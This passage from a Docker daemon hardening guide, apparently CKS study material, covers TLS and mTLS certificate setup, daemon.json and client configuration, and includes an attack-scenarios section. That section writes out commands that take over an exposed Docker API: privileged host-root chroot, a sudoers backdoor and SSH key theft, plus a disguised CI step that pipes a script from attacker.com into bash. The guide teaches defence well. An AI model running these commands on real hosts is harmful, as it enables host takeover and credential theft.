echo extendedKeyUsage = clientAuth > extfile-client.cnf

openssl x509 -req \
  -days 365 \
  -sha256 \
  -in client.csr \
  -CA ca.pem \
  -CAkey ca-key.pem \
  -CAcreateserial \
  -out client.pem \
  -extfile extfile-client.cnf

# ============================================================
# STEP 4: Set correct permissions
# ============================================================
chmod 0400 ca-key.pem client-key.pem server-key.pem  # Keys: read by owner only
chmod 0444 ca.pem server.pem client.pem               # Certs: read-only

# ============================================================
# STEP 5: Deploy to Docker host
# ============================================================
mkdir -p /var/docker
cp ca.pem server.pem server-key.pem /var/docker/
chown root:docker /var/docker/*.pem
```

### Server Configuration — daemon.json

```json
{
  "hosts": [
    "unix:///var/run/docker.sock",
    "tcp://192.168.1.10:2376"
  ],
  "tls": true,
  "tlsverify": true,
  "tlscert": "/var/docker/server.pem",
  "tlskey": "/var/docker/server-key.pem",
  "tlscacert": "/var/docker/ca.pem"
}
```

```bash
# Apply and verify
systemctl restart docker
systemctl status docker

# Confirm port is open
ss -tlnp | grep 2376
```

---

## 9. Client-Side TLS Configuration

### Method 1 — Environment Variables (Recommended for regular use)

```bash
export DOCKER_TLS_VERIFY=true
export DOCKER_HOST="tcp://192.168.1.10:2376"
export DOCKER_CERT_PATH="$HOME/.docker"    # Directory with ca.pem, cert.pem, key.pem

# Copy client certs to the expected location
mkdir -p ~/.docker
cp ca.pem ~/.docker/
cp client.pem ~/.docker/cert.pem           # Naming convention: cert.pem
cp client-key.pem ~/.docker/key.pem        # Naming convention: key.pem

# Docker CLI now automatically uses these certs
docker ps
docker images
docker run nginx
```

### Method 2 — Explicit Flags Per Command

```bash
docker \
  --host=tcp://192.168.1.10:2376 \
  --tls \
  --tlsverify \
  --tlscacert=$HOME/.docker/ca.pem \
  --tlscert=$HOME/.docker/cert.pem \
  --tlskey=$HOME/.docker/key.pem \
  ps
```

### Method 3 — Docker Context (Modern Approach)

```bash
# Create a named context for the remote host
docker context create remote-secure \
  --docker "host=tcp://192.168.1.10:2376,ca=$HOME/.docker/ca.pem,cert=$HOME/.docker/cert.pem,key=$HOME/.docker/key.pem"

# Use the context
docker context use remote-secure
docker ps    # Automatically connects with TLS to remote host

# Switch back to local
docker context use default
```

### Expected Certificate File Layout

```
~/.docker/
├── ca.pem          # CA certificate (to verify server)
├── cert.pem        # Client certificate
└── key.pem         # Client private key
```

```
/var/docker/  (on the Docker host)
├── ca.pem          # CA certificate (to verify clients)
├── server.pem      # Server certificate
└── server-key.pem  # Server private key
```

### Verifying the Client Connection

```bash
# Test the connection — should return version info
docker version

# If cert is wrong or missing:
# Error response from daemon: client sent an HTTP request to an HTTPS server.
# → You forgot DOCKER_TLS_VERIFY or are connecting without certs

# If CA mismatch:
# Error: x509: certificate signed by unknown authority
# → Your ca.pem doesn't match what signed the server cert

# If client cert rejected:
# Error: remote error: tls: certificate required
# → Server requires tlsverify but client sent no cert
```

### TLS Troubleshooting Decision Tree



---

## 10. Complete Hardened Setup — End to End

### Architecture Overview



### Full daemon.json — Production Ready

```json
{
  "hosts": [
    "unix:///var/run/docker.sock",
    "tcp://192.168.1.10:2376"
  ],
  "tls": true,
  "tlsverify": true,
  "tlscert": "/var/docker/server.pem",
  "tlskey": "/var/docker/server-key.pem",
  "tlscacert": "/var/docker/ca.pem",
  "debug": false,
  "log-driver": "json-file",
  "log-opts": {
    "max-size": "100m",
    "max-file": "5"
  },
  "no-new-privileges": true,
  "icc": false,
  "live-restore": true
}
```

### What Each Security Layer Blocks



---

## 11. Real-World Attack Scenarios

### Attack 1 — Shodan Scan Finds Open Docker Port

Shodan (a search engine for internet-connected devices) regularly finds thousands of Docker daemons exposed on port 2375 with zero authentication.

```mermaid
graph LR
    ATK["🔴 Attacker"] -->|"Shodan search:\nport:2375 product:docker"| SHODAN["📡 Shodan"]
    SHODAN -->|"Returns list of\nexposed Docker hosts"| ATK
    ATK -->|"curl http://IP:2375/containers/json"| VICTIM["😱 Victim's Docker host\n(no TLS, no auth)"]
    VICTIM -->|"Returns container list\n+ full API access"| ATK
    ATK -->|"docker -H tcp://IP:2375 run\n--privileged ..."| VICTIM

    style ATK fill:#ff6b6b,color:#fff
    style VICTIM fill:#b71c1c,color:#fff
```

**What the attacker does:**

```bash
# Step 1: Discover containers and info
curl http://VICTIM_IP:2375/info
curl http://VICTIM_IP:2375/containers/json

# Step 2: Stop all running services
docker -H tcp://VICTIM_IP:2375 stop $(docker -H tcp://VICTIM_IP:2375 ps -q)

# Step 3: Gain root shell on host
docker -H tcp://VICTIM_IP:2375 run \
  --rm -it \
  --privileged \
  --volume /:/hostfs \
  alpine \
  chroot /hostfs

# Step 4: Establish persistence (from root shell)
echo "attacker ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
cat ~/.ssh/id_rsa   # Steal private keys
```

**Fix:**

```json
// /etc/docker/daemon.json
{
  "hosts": ["unix:///var/run/docker.sock"],
  "tls": true,
  "tlsverify": true
}
```

---

### Attack 2 — docker.sock Mounted in CI Pipeline

A CI/CD system mounts `/var/run/docker.sock` into the runner container to allow Docker-in-Docker builds. A malicious PR adds a step that exploits this.

```bash
# Malicious pipeline step disguised as "cleanup"
- name: cleanup-old-images
  run: |
    # Actually runs a privileged container on the HOST
    docker run --rm \
      --privileged \
      --pid=host \
      --volume /:/hostfs \
      alpine \
      chroot /hostfs curl -s http://attacker.com/backdoor.sh | bash
```

**Fix:**

```yaml
# Use rootless Docker or Kaniko instead of mounting docker.sock
- name: Build image
  image: gcr.io/kaniko-project/executor:latest
  args:
  - "--dockerfile=Dockerfile"
  - "--context=."
  - "--destination=registry/myapp:latest"
```

---

### Attack 3 — TLS Without Verification (`tls: true` Only)

An admin sets up TLS but uses `tls: true` instead of `tlsverify: true`. A network attacker can connect without a client cert.

```bash
# With tls: true (no tlsverify), no client cert is needed:
docker --tls \
  --tlscacert=intercepted-ca.pem \
  --host=tcp://192.168.1.10:2376 \
  ps   # ← Works! No client cert needed with tls: true
```

**Fix:** Always use `tlsverify: true` — never `tls: true` alone.

---

## 12. Security Checklist

### Server-Side

```bash
# 1. Confirm docker socket permissions
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker ← group docker only (not world-readable)

# 2. Confirm no unencrypted TCP listener
ss -tlnp | grep 2375
# Should return NOTHING

# 3. Verify TLS port (if used) is listening
ss -tlnp | grep 2376
# Should show dockerd on the PRIVATE IP only (not 0.0.0.0)

# 4. Verify daemon.json has tlsverify
cat /etc/docker/daemon.json | python3 -m json.tool | grep tls

# 5. Verify server cert validity
openssl x509 -in /var/docker/server.pem -noout -dates

# 6. Check docker group membership
getent group docker

# 7. Verify dockerd is NOT listening on 0.0.0.0
ss -tlnp | grep dockerd | grep -v '127.0.0.1\|192.168'
# Should return NOTHING
```

### Client-Side

```bash
# 1. Verify client cert is valid
openssl x509 -in ~/.docker/cert.pem -noout -text | grep -E "Subject|Issuer|Not"

# 2. Verify client can connect with TLS
DOCKER_TLS_VERIFY=true DOCKER_HOST=tcp://192.168.1.10:2376 docker version

# 3. Verify that connecting WITHOUT TLS fails (expected)
DOCKER_HOST=tcp://192.168.1.10:2376 docker version

# 4. Verify that connecting WITHOUT client cert fails (expected)
docker --host=tcp://192.168.1.10:2376 --tls --tlscacert=~/.docker/ca.pem version
```

---

## 13. Concepts at a Glance

| Concept | Key Detail |
|---------|-----------|
| **Docker** | Open-source containerisation platform — packages apps + dependencies into portable containers |
| **Container** | Running instance of a Docker image; shares host kernel via namespaces and cgroups |
| **Docker Image** | Read-only blueprint for a container; built from a Dockerfile |
| **dockerd** | The Docker daemon — background process that manages all container operations; runs as root |
| **containerd** | Lower-level container runtime that dockerd delegates to via gRPC |
| **runc** | OCI runtime that creates actual Linux namespaces and cgroups |
| **Unix socket** | `/var/run/docker.sock` — local IPC; secured by docker group membership |
| **TCP :2375** | Unencrypted, unauthenticated remote API — never use in production |
| **TCP :2376** | Convention for TLS-secured Docker API |
| **`tls: true`** | Encrypts traffic only; no client authentication |
| **`tlsverify: true`** | Encrypts traffic AND requires client certificate — always use this |
| **CA (Certificate Authority)** | Issues and signs both server and client certificates |
| **Server cert** | Proves the Docker host's identity to clients |
| **Client cert** | Proves the client's identity to the Docker host |
| **mTLS** | Mutual TLS — both sides authenticate each other with certificates |
| **`DOCKER_TLS_VERIFY`** | Env var: set to `true` to enable client cert verification |
| **`DOCKER_HOST`** | Env var: where the CLI connects (`tcp://` or `unix://`) |
| **`DOCKER_CERT_PATH`** | Env var: directory containing `ca.pem`, `cert.pem`, `key.pem` |
| **docker.sock mount** | Giving a container access to the socket = container escape risk |
| **Rootless Docker** | Docker daemon running as non-root user — better security, some limitations |
| **`no-new-privileges`** | Prevents setuid/setgid privilege escalation inside containers |
| **`icc: false`** | Disables inter-container communication by default |
| **Shodan** | Search engine that finds exposed Docker APIs on port 2375 on the internet |

---

## 14. Commands Reference

### TLS Certificate Management

```bash
# Generate CA
openssl genrsa -aes256 -out ca-key.pem 4096
openssl req -new -x509 -days 1825 -key ca-key.pem -sha256 -out ca.pem

# Generate server cert
openssl genrsa -out server-key.pem 4096
openssl req -subj "/CN=192.168.1.10" -sha256 -new -key server-key.pem -out server.csr
openssl x509 -req -days 365 -sha256 -in server.csr -CA ca.pem -CAkey ca-key.pem \
  -CAcreateserial -out server.pem

# Generate client cert
openssl genrsa -out client-key.pem 4096
openssl req -subj '/CN=client' -new -key client-key.pem -out client.csr
echo extendedKeyUsage = clientAuth > extfile-client.cnf
openssl x509 -req -days 365 -sha256 -in client.csr -CA ca.pem -CAkey ca-key.pem \
  -CAcreateserial -out client.pem -extfile extfile-client.cnf

# Inspect a certificate
openssl x509 -in server.pem -noout -dates     # Expiry date
openssl x509 -in server.pem -noout -subject   # Who it was issued to
openssl x509 -in server.pem -noout -issuer    # Who signed it

# Verify a cert was signed by the CA
openssl verify -CAfile ca.pem server.pem
openssl verify -CAfile ca.pem client.pem
```

### Docker Remote Commands

```bash
# Connect with explicit TLS flags
docker \
  --host=tcp://192.168.1.10:2376 \
  --tlsverify \
  --tlscacert=~/.docker/ca.pem \
  --tlscert=~/.docker/cert.pem \
  --tlskey=~/.docker/key.pem \
  ps

# Connect using environment variables
export DOCKER_HOST="tcp://192.168.1.10:2376"
export DOCKER_TLS_VERIFY=true
export DOCKER_CERT_PATH="$HOME/.docker"
docker ps

# Reset to local Docker
unset DOCKER_HOST DOCKER_TLS_VERIFY DOCKER_CERT_PATH
```

### Security Verification

```bash
# Check listening ports
ss -tlnp | grep dockerd
netstat -tlnp | grep -E '2375|2376'

# Check docker group members
getent group docker

# Check for docker.sock mounts in running containers
docker ps -q | xargs -I {} docker inspect {} \
  --format '{{.Name}}: {{range .Mounts}}{{.Source}} {{end}}' \
  | grep docker.sock

# Verify server cert via live connection
openssl s_client -connect 192.168.1.10:2376 </dev/null 2>/dev/null \
  | openssl x509 -noout -subject -issuer -dates

# Test that unauthenticated access is rejected (should FAIL)
docker --host=tcp://192.168.1.10:2376 ps

# Test that access without client cert is rejected (should FAIL)
docker --host=tcp://192.168.1.10:2376 --tls --tlscacert=~/.docker/ca.pem ps
```

---

> 📝 **CKS Exam Checklist — Docker Daemon Security**
> - [ ] Know what Docker is and why the daemon runs as root
> - [ ] Know the difference between `tls: true` (encrypt only) and `tlsverify: true` (encrypt + client auth)
> - [ ] Know port `2375` = no TLS (dangerous), `2376` = TLS (secure convention)
> - [ ] Know the 3 TLS daemon.json fields: `tlscert`, `tlskey`, `tlscacert`
> - [ ] Know client-side env vars: `DOCKER_HOST`, `DOCKER_TLS_VERIFY`, `DOCKER_CERT_PATH`
> - [ ] Know the `~/.docker/` auto-detection of `ca.pem`, `cert.pem`, `key.pem`
> - [ ] Understand why binding to `0.0.0.0:2375` is never acceptable
> - [ ] Know that docker group membership = root-equivalent access
> - [ ] Know that mounting `/var/run/docker.sock` in a container enables escape
> - [ ] Know `openssl x509 -in cert.pem -noout -dates` to check cert expiry
